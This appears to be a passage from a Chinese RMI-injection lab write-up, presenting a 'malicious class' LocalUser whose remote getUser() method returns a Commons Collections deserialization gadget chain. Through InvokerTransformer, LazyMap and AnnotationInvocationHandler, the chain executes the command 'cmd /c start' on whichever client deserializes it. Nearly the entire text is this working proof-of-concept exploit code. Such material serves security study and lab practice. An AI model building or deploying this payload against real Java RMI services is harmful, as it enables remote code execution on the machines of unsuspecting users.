 **恶意类LocalUser**

```java
package rmi_injection_labs1.service;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.lang.annotation.Documented;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.Map;
public class LocalUser extends UnicastRemoteObject implements User {
    public String name;
    public int age;
    public LocalUser(String name, int age) throws RemoteException {
        super();
        this.name = name;
        this.age = age;
    }

    @Override
    public Object getUser() throws RemoteException {
        InvocationHandler invocationHandler = null;
        try{
            String execArgs = "cmd /c start";
            final Transformer transformerChain = new ChainedTransformer(
                    new Transformer[]{ new ConstantTransformer(1) });
            final Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {
                            String.class, Class[].class }, new Object[] {
                            "getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke", new Class[] {
                            Object.class, Object[].class }, new Object[] {
                            null, new Object[0] }),
                    new InvokerTransformer("exec",
                            new Class[] { String.class }, new Object[]{execArgs}),
                    new ConstantTransformer(1) };
            Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
            Field iTransformers = transformer.getDeclaredField("iTransformers");
            iTransformers.setAccessible(true);
            iTransformers.set(transformerChain, transformers);
            final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
            final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
            ctor.setAccessible(true);
            InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
            Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
            invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        }catch (Exception ignored){
            throw new RemoteException("生成poc代码失败");
        }
        return invocationHandler;
    }
```